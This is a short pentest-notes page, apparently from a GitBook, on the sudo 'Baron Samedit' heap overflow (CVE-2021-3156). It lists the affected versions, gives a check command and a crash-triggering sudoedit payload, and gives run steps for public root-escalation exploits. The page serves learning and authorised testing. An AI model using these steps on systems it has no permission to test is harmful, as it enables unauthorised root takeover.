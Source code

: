 ```yaml
---
description: CVE-2021–3156
---
```


# Baron Samedit

## Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

## Practice

{% tabs %}
{% tab title="Enum" %}
To check, you run the following command. If this returns an error message `sudoedit: /: not a regular file`, then it’s vulnerable. If it returns the sudoedit usage, it’s not.

```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:

```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit. For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit\_nss.py:

```bash
python3 exploit_nss.py
```

For Linux distribution that glibc has no tcache support:

```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)\
On the vulnerable host we can do:

```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}
